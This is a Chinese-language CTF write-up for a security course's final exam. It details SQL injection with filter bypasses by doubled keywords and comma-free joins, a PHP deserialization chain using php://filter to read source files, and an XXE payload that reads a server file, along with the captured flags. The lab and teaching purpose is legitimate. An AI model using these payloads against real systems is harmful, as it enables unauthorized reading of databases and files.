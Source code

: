 ## 系统安全攻防期末机试writeup

### flag1
- 进入网站About页面: `http://106.15.186.69:40248/article.php?id=2`  
  页面显示了SQL语句`string(34) "select * from article where id='2'"`

- 注意到URL尾部的查询参数`id=2`, 加入单引号`id=2'`后页面回显错误信息`string(35) "select * from article where id='2''" 404 not found!`，定位到注入点

- 使用`id=2' --+`顺利闭合引号，看到正确回显  

- 使用`id=2' order by 1 --+`语句探测表内字段数量，发现`or`被过滤，使用双写`oorrder by `绕过，`oorrder by 5`时报错回显，确定表内有四列

- 使用`id=0' union select 1,2,3,4 --+`发现错误回显分析，分析后发现`union, select, from`均被过滤，采用双写绕过；逗号被侦测到后直接返回，无法采用双写绕过，使用`select * from ((select 1)a join (select 2)b join (select 3)c join (select 4)d)`语句绕过逗号限制

- 使用`id=0' uniunionon selselectect * frfromom ((selselectect 1)a join (seleselectct 2)b join (seleselectct 3)c join (seleselectct 4)d) --+` 发现2，4字段回显(这时候已经基本确定和之前做过SQL注入的lab基本相似)

- 使用`id=0' uniunionon selselectect * frfromom ((selselectect 1)a join (seleselectct database())b join (seleselectct 3)c join (seleselectct 4)d) --+` 得到数据库名`coolsql`

- 使用`id=0' uniunionon selselectect * frfromom ((selselectect 1)a join (selselectect group_concat(TABLE_NAME) frfromom infoorrmation_schema.TABLES where TABLE_SCHEMA=database())b join (seleselectct 3)c join (seleselectct 4)d) --+` 得到两个数据表名 `article,flag` ，注意`information`里面的`or`也要双写

- 使用`id=0' uniunionon selselectect * frfromom ((selselectect 1)a join (selselectect group_concat(COLUMN_NAME) frfromom infoorrmation_schema.COLUMNS where TABLE_NAME='flag')b join (seleselectct 3)c join (seleselectct 4)d) --+` 得到`flag`表中列名`id,title,times,f11111aaaggg,test_content`

- 使用`id=0' uniunionon selselectect * frfromom ((selselectect 1)a join (selselectect f11111aaaggg frfromom flag)b join (seleselectct 3)c join (seleselectct 4)d) --+` 拿到 `flag1{78f5c2ab48b34408b830827693e2cd0c}` 

### flag2
- 在本地直接使用 `wget -r http://106.15.186.69:40248/`指令把网站可访问数据拉取下来，发现存在`robots.txt`协议文件，内容如下：
```
User-agent: *
Disallow: ssssssee333r.php
```

- 访问`http://106.15.186.69:40248/ssssssee333r.php`得到如下代码：
```
<?php
error_reporting(1);
highlight_file(__FILE__);
class Lab
{
    public $source;
    public function __toString()
    {
        $content = base64_encode(file_get_contents($this->source));
        echo $content;
    }

    public function __wakeup()
    {
        if(preg_match('/http|https|file:|gopher|dict|art|\.\.|fllllllaaaaaag/i',$this->source)) {
            die('hacker!');
        }
    }
}
if(isset($_GET['a']))
{
    $a = unserialize($_GET['a']);
}
?>
```


- 观察发现有可利用的POI漏洞，`preg_match('/http|https|file:|gopher|dict|art|\.\.|fllllllaaaaaag/i',$this->source)`此处函数调用将会把`$this->resource`作为字符串处理，如果`$this->resource`为`Lab`对象实例，则将会调用其中的`__toString()`魔法方法，从而达到读取服务器文件的目的，几次尝试后发现flag藏在`write.php`文件中，构造如下  

```
<?php

class Lab
{
    public $source;
    public function __toString()
    {
        $content = base64_encode(file_get_contents($this->source));
        echo $content;
    }

    public function __wakeup()
    {
        if(preg_match('/http|https|file:|gopher|dict|art|\.\.|fllllllaaaaaag/i',$this->source)) {
            die('hacker!');
        }
    }
}

$e = new Lab();
$e->source = "php://filter/resource=write.php";

$lab = new Lab();
$lab->source = $e;
echo serialize($lab);

// O:3:"Lab":1:{s:6:"source";O:3:"Lab":1:{s:6:"source";s:31:"php://filter/resource=write.php";}}
?>
```


- 构造访问`http://106.15.186.69:40248/ssssssee333r.php?a=O:3:%22Lab%22:1:{s:6:%22source%22;O:3:%22Lab%22:1:{s:6:%22source%22;s:31:%22php://filter/resource=write.php%22;}}`得到`write.php`源代码如下：
```
<!DOCTYPE html>
<html lang="zh-CN"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    
    <meta name="description" content="">
    <meta name="author" content="">
    <title>CoolCms</title>
    <link rel="stylesheet" href="https://cdn.bootcss.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <link href="./css/1.css" rel="stylesheet">
    <script src="https://cdn.bootcss.com/bootstrap/3.3.7/js/bootstrap.min.js" integrity="sha384-Tc5IQib027qvyjSMfHjOMaLkfuWVxZxUPnCJA7l2mCWNIpG9mGCD8wGNIcPD7Txa" crossorigin="anonymous"></script>
  </head>

  <body>

    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="./index.php">CoolCms</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="./index.php">Home</a></li>
            <li><a href="./article.php">About</a></li>
            <li class="active"><a href="./write.php">Write</a></li>
            <li><a href="">Contact</a></li>
          </ul>
        </div><!--/.nav-collapse -->
      </div>
    </nav>
    <div class="container">
          <form action="./write.php" method="POST">
            <div class="form-group">
              <label for="content">Content</label>
              <textarea class="form-control" id="content" name="content" rows="6" placeholder="
                <code>
                  <body>Hello World!</body>
                </code>"></textarea>
            </div>
          <button class="btn btn-primary">Submit</button>
            <?php
            error_reporting(0);
	    #flag2{0d0050b4286325575089f033f3293a38}
	    #flag3 in /home/fllllllaaaaaag
            if(isset($_POST['content']) and $_POST['content'] != "") 
            {
		$content = $_POST['content'];    
		$tmp = strtolower($_POST['content']);
		$array = array('article','write');
		foreach ($array as $value)
		{	
    			if (substr_count($tmp, $value) > 0)
    			{		
        			exit('You are Bad!');
    			}
		}
	        $dom = new DOMDocument;
		$dom->preserveWhiteSpace = false;
		$dom->formatOutput = true;
		$dom->loadXML($content,LIBXML_NOENT);
		echo "<div class=\"container\">";
		echo $dom->saveXML();
	    	echo "</div>";
	    }
          ?>
        </form>
    </div>
</body></html>
```

- 得到 `flag2{0d0050b4286325575089f033f3293a38}`


### flag3
- 根据上面的信息知道`flag3`的位置`/home/fllllllaaaaaag`，并且发现XXE漏洞，构造如下XML：
```
<!DOCTYPE message [
    <!ENTITY test SYSTEM "file:///home/fllllllaaaaaag">
]>
<message>&test;</message>
```

- 在Write页面提交得到 `flag3{2ab3de3afb57c76aa4b10af3dabd2454}`